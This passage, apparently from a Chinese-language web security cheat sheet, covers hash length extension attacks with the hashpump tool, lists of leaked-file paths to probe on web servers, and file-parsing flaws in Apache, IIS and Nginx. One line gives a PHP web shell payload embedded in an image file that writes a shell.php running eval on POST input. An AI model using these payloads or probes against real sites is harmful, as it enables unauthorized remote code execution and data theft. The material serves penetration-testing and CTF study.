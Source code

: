 

## Length Extension Attack

- 很多hash算法都可能存在此攻擊，例如`md5`, `sha1`, `sha256`...
- 主要是因為他們都使用Merkle-Damgard hash construction
- 會依照64 Byte分組，不足會padding
  - 1 byte的`0x80`+一堆`0x00`+8 bytes的`長度`
- IV是寫死的，且每一組輸出結果會當下一組的輸入
- 攻擊條件： (這裏md5換成sha1, sha256...也通用)
  - 已知`md5(secret+message)`
  - 已知`secret長度`
  - 已知`message內容`
- 符合三個條件就能構造`md5(secret+message+padding+任意字串)`
- 工具 - hashpump
  - 基本用法：
    1. 輸入`md5(secret+message)`的值
    2. 輸入`message`的值
    3. 輸入`secert長度`
    4. 輸入要加在後面的字串
    5. 最後會把`md5(secret+message+padding+任意字串)`和`message+padding+任意字串`噴給你


# 其它

 - Information leak
   - .git / .svn
   - robots.txt
   - /.well-known
   - .DS_Store
   - .htaccess
   - .pyc
   - package.json
   - server-status
   - crossdomain.xml
   - admin/ manager/ login/ backup/ wp-login/ phpMyAdmin/
   - xxx.php.bak / www.tar.gz / .xxx.php.swp / xxx.php~ / xxx.phps
   - /WEB-INF/web.xml
 - 文件解析漏洞
   - Apache
     - shell.php.ggininder
     - shell.php%0a
      - httpd 2.4.0 to 2.4.29
      - CVE-2017-15715
   - IIS
     - IIS < 7
       - a.asp/user.jpg
       - user.asp;aa.jpg
   - Nginx
     - nginx < 8.03
       - `cgi.fix_pathinfo=1`
       - Fast-CGI開啟狀況下
       - kaibro.jpg: `<?php fputs(fopen('shell.php','w'),'<?php eval($_POST[cmd])?>');?>`
       - 訪問`kaibro.jpg/.php`生成shell.php
